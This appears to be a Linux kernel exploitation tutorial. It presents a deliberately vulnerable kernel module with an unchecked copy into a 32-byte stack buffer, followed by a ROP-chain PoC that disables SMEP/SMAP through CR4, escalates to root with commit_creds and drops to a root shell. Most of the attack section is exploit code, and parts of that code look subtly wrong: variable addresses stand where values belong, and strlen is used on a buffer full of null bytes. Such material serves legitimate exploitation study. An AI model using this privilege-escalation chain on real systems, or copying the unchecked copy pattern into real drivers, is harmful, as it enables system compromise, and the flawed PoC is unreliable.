

## TL;DR

In this article, we're going to exploit an LK module that has a stack overflow vulnerability by bypassing SMEP.

## Background

Before we start, there're some concepts for bypassing those protections.

* SMEP/SMAP : Supervisor Mode Execution/Access Protection.

This means userland code cannot be executed by the kernel. And its state is saved in Bit 20/21 of the CR4 register.



To check whether it is activated or not, just read */proc/cpuinfo*, then find **smep**.

```c
zero@ubuntu:~$ cat /proc/cpuinfo | grep flags
flags		: fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 ss ht syscall nx pdpe1gb rdtscp lm constant_tsc arch_perfmon nopl xtopology tsc_reliable nonstop_tsc cpuid pni pclmulqdq ssse3 fma cx16 pcid sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline_timer aes xsave avx f16c rdrand hypervisor lahf_lm abm 3dnowprefetch cpuid_fault invpcid_single pti fsgsbase tsc_adjust bmi1 hle avx2 smep bmi2 invpcid rtm mpx rdseed adx smap clflushopt xsaveopt xsavec xsaves arat
...
```

You can see SMEP/SMAP is enabled.

* KASLR : Kernel Address Space Layout Randomization

In every boot, the kernel base address is changed randomly. So, we need to leak its address in several ways.

In this example, I just add a function that gets kernel base address for helping exploit easier.

## Case

This time, I'll give an example code that has a stack-based overflow vulnerability.
The testing Environment is like below.

```c
zero@ubuntu:~/Desktop/LK/bug2$ uname -a
Linux ubuntu 4.15.4-041504-generic #201802162207 SMP Fri Feb 16 22:08:57 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
zero@ubuntu:~/Desktop/LK/bug2$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu Bionic Beaver (development branch)
Release:	18.04
Codename:	bionic
zero@ubuntu:~/Desktop/LK/bug2$ gcc -q -v
...
gcc version 7.3.0 (Ubuntu 7.3.0-3ubuntu1)
```

## Code

Here's a Makefile & vulnerable code.

```c
obj-m += bug2.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

```c
#include <linux/init.h>
#include <linux/module.h> 
#include <linux/proc_fs.h>
#include <linux/kernel.h>

#include <linux/slab.h>
#include <linux/fs.h>
#include <linux/cdev.h> 
#include <linux/device.h>

#include <asm/uaccess.h>

static struct proc_dir_entry *my_proc = NULL;

static ssize_t my_write(struct file *file, const char *buf, size_t len, loff_t *data) {
    char buffer[32];
    
    if(raw_copy_from_user(buffer, buf, len))
        return -EFAULT;
    
    buffer[len - 1] = '\0';
    printk("[+] write %s (%ld bytes)\n", buffer, len);
    
    return len;
}

static const struct file_operations fops = {
    .owner = THIS_MODULE,
    .write = my_write
};

void __exit my_exit_module(void) {
    remove_proc_entry("bug2", NULL);
    printk("[-] bug2 module unloaded\n");
}

int __init my_init_module(void) {
    my_proc = proc_create("bug2", 0666, NULL, &fops);
    
    if(my_proc == NULL)
        return -ENOMEM;
    
    printk("[+] bug2 module loaded\n");
    return 0;    
}

module_init(my_init_module);
module_exit(my_exit_module);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("zer0day");
```

You can test a module like below to check working well.

```c
zero@ubuntu:~/Desktop/LK/bug2$ echo "asdf" > /proc/bug2; dmesg | tail -n 1
[ 1096.475854] [+] write asdf (5 bytes)
```

## Attack

Let me explain how to build a fully ROP chain for bypass SMEP/SMAP in order.

* backup userland context

> userland cs, ss, rflags, rsp

* overwrite CR4 with value 0x606e0. (remove Bit 20 of CR4 register)

> pop reg; ret; <br/>
 \xe0\x06\x06\x00\x00\x00\x00\x00 <br/>
  mov cr4, reg; ret;

* call commit_creds(prepare_kernel_cred(0)).

> &get_root()

* swapgs;
* iretq; construct safe structure with userland context. And arrange registers in following order.

```c
swapgs;
iretq;
rip (to &get_shell)
cs
rflags
rsp
ss
```

Here's final PoC code.

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

#include <sys/types.h>
#include <sys/mman.h>

struct cred;
struct task_struct;

typedef struct cred *(*prepare_kernel_cred_t)(struct task_struct *daemon)__attribute__((regparm(3)));
typedef int(*commit_creds_t)(struct cred *new)__attribute__((regparm(3)));

prepare_kernel_cred_t prepare_kernel_cred = (prepare_kernel_cred_t)0xffffffffb26ae2b0;
commit_creds_t commit_creds = (commit_creds_t)0xffffffffb26adf00;

void get_shell() { if (getuid() == 0) system("/bin/sh"); }
void get_root() { commit_creds(prepare_kernel_cred(0)); }

unsigned long user_cs = 0x0;
unsigned long user_ss = 0x0;
unsigned long user_rsp = 0x0;
unsigned long user_rflags = 0x0;

void backup_stat() {  
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) ::"memory"
    );
}

int main(int argc, char *argv[]) {
	printf("\e[36m[*] Stage 1 - Allocate 0x0\n");
	
	if (mmap((void *)0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE | MAP_FIXED, -1, 0) == (char *)-1) {
	    perror("mmap()");
		return EXIT_FAILURE;
	}
	
	// opcodes that used in this shellcode need to be changed to gadgets.
	// y can simply get gadgets with ROPgadget tools or anything from vmlinux.
    unsigned char shellcode[] = {
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, // need proper size of paddings just before at RIP.
        /* SMEP/SMAP Bypass */
	    // 0x68,
	    0x5f, 0xc3,                                     // pop rdi; ret;
	    0xe0, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, // 0x00000000000606e0 // SMEP/SMAP off
	    0x0f, 0x22, 0xe7,                               // mov cr4, rdi;
	    0x5d, 0xc3,                                     // pop rbp; ret;
	    0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, // rbp
	    /* call get_root() */
	    // 0x48, 0xb8,
	    // 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, // mov rax, &get_root()
	    // 0xff, 0xd0, 0x48,                               // call rax
	    0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, // &get_root()
	    /* userland info */
	    0x0f, 0x01, 0xf8,                               // swapgs;
	    0x5d, 0xc3,                                     // pop rbp; ret;
	    0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, // rbp
	    0x48, 0xcf,                                     // iretq;
	    // rip = get_shell
        // cs = user_cs
        // rflags = user_rflags
        // rsp = asm('rsp')
        // ss = user_ss
	    0x43, 0x43, 0x43, 0x43, 0x43, 0x43, 0x43, 0x43, // rip     : get_shell()
	    0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, // cs      : user_cs
	    0x45, 0x45, 0x45, 0x45, 0x45, 0x45, 0x45, 0x45, // rflags  : user_rflags
	    0x46, 0x46, 0x46, 0x46, 0x46, 0x46, 0x46, 0x46, // rsp     : user_rsp
	    0x47, 0x47, 0x47, 0x45, 0x47, 0x47, 0x47, 0x47, // ss      : user_ss
	};
	
	backup_stat(); // backup userland context
	
	void **offset = 0;
	
	offset = rawmemchr(shellcode, 0x42);
	(*offset) = get_root;
	
	offset = rawmemchr(shellcode, 0x43);
	(*offset) = get_shell;
	
	offset = rawmemchr(shellcode, 0x44);
	(*offset) = &user_cs;
	
	offset = rawmemchr(shellcode, 0x45);
	(*offset) = &user_rflags;
	
	offset = rawmemchr(shellcode, 0x47);
	(*offset) = &user_ss;
	
	register unsigned long rsp asm("rsp");
	user_rsp = (unsigned long)rsp;
	
	offset = rawmemchr(shellcode, 0x46);
	(*offset) = &user_rsp;
	
	memcpy((void *)0, shellcode, sizeof(shellcode));
	
	printf("\e[36m[*] Stage 2 - Trigger\n");
	
    int fd = open("/proc/bug2", O_WRONLY);
    write(fd, shellcode, strlen(shellcode));
    
    get_shell();
}
```
